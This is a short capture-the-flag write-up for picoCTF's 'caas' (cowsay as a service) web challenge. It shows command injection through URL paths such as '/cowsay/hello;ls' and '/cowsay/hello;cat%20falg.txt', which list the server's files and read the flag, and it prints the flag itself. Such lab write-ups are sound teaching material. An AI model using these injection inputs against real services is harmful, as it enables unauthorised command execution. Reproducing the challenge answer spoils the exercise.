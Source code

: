 # caas

# Description
Description
Now presenting [cowsay as a service](https://caas.mars.picoctf.net/)

---
Website : 

Make a request to the following URL to cowsay your message:
https://caas.mars.picoctf.net/cowsay/{message}

Going to `https://caas.mars.picoctf.net/cowsay/hello` we see : 
```
_______
< hello >
 -------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```
* Cowsay is a command line tool to print ascii art of a cow. 
* So it must be vulnerble to command injection 

going to `/cowsay/hello;ls`
we get : 
```
 _______
< hello >
 -------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```
We get the flag by getting the content of `falg.txt` : `/cowsay/hello;cat%20falg.txt`

> picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}